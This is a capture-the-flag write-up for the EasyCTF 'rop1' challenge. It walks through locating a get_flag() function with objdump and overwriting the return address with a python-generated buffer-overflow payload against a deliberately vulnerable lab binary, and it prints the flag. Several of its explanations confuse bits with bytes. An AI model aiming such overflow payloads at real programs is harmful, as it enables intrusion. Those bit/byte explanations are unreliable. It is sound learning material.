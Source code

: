 # Rop1

By PGODULTIMATE

```asciidoc
Go to /problems/rop1 on the shell server and tell me whats in flag.txt.
```

Well the first step to solving this problem is simply accessing the shell and **cd** to `/problems/rop1`. If you `ls -a` the directory then two files would immediately show up. They are Rop1 and [Rop1.c](https://github.com/goelp14/EasyCTF-Writeups-2018-Final/blob/master/rop1.c). I am not linking to the other file because it isn't really necessary and I cannot find it. Anyway, looking at Rop1.c, I see that there is a:

```c
void get_flag()
{
        system("/bin/cat flag.txt");
}
```

That is just completely separate from the other segments of code so I know I can't get to it through normal means. This function prints out the flag as cat is an opening command and flag.txt is - you know - the flag. So I know that this is the part of the code I need to attack. What I do next is objdump the program.

```asciidoc
$ objectdump -d rop1
```

This gives me a whole bunch of stuff, but all I need to look for is the get\_flag\(\) function. It would literally say get\_flag next to the address of the function. So, my address is:

```py
0x0000000000400646
```

What does this mean? Well it really is just telling me the location of the function in the program. With this, I can send a **Buffer Overflow** attack to it and it should print out the flag \(since this is a ROP problem\). Now I just need to figure out what the buffer size is! I first just tried _64 bits_ because thats the usual size for a buffer. Before I go any further I should explain a little but about a **Buffer Overflow** attack. Essentially, this takes exploits a function that takes an input but putting more characters than can be handled. However, the amount usually has to be precise \(I believe 1 byte over but that may vary\). The common format of the attack would be:

```py
$ python -c "print('A' * <buffer overflow size> + '\xmemory\xaddress\xto\xexploit')" | ./<file>
```

It would directly pump in the letter **A ** the number of times I want it to to reach the **buffer overflow size **as an answer to whatever input is wanted at that memory address. The address we found must be converted to _**Little Endian **\_if it were to be used as a memory address in this attack. _**Little Endian**_ is really just the memory address found split in to segments of two bits and then reversed. In this case, The _**Little Endian **\_of `0x0000000000400646` is simply `\x46\x06\x40\x00\x00\x00\x00\x00`. In this first scenario it would look like this:

```py
$ python -c "print('A' * 64 + '\x46\x06\x40\x00\x00\x00\x00\x00')" | ./rop1
```

This didn't print out my flag but I did get a `Segmentation fault (core dumped)` meaning that I am on the right track. So, I just added _one byte_ to it \(_8 bits_\).

```py
$ python -c "print('A' * 72 + '\x46\x06\x40\x00\x00\x00\x00\x00')" | ./rop1
```

This prints out my flag:

```asciidoc
easyctf{r0ps_and_h0ps}
```



